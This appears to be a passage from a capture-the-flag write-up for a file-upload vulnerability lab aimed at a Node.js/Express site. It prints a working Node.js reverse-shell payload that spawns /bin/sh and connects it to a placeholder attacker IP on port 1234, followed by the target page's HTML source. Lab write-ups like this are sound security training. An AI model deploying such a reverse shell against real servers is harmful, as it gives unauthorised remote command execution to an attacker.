

- Open [http://jewel.uploadvulns.thm/](http://jewel.uploadvulns.thm/)
  - Using Wappalyzer
    - Node.js server (Header - `X-Powered-By: Express`)
    - Create a `jewel.js` payload file with this code (source - [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#nodejs))

```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "<ATTACKER_IP>", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

- Check source code and the available `.js` files

```html

<!DOCTYPE html>
<html>
	<head>
		<title>Jewel</title>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
		<link type="text/css" rel="stylesheet" href="assets/css/style.css">
		<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
		<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
		<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
		<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	</head>
	<body>
		<div id="one" class="background"></div>
		<div id="two" class="background" style="display:none;"></div>
		<div id="three" class="background" style="display:none;"></div>
		<div id="four" class="background" style="display:none;"></div>
		<main>
			<object ondragstart="return false;" ondrop="return false;" id="title" data="/assets/title.svg" type="image/svg+xml"></object>
			<p>Have you got a nice image of a gem or a jewel?<br>Upload it here and we'll add it to the slides!</p>
			<button class="Btn" id="uploadBtn"><i id="uploadIcon" class="material-icons">backup</i> Select and Upload</button>
			<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		</main>
		<p id="responseMsg" style="display:none;"></p>
	</body>
</html>
```
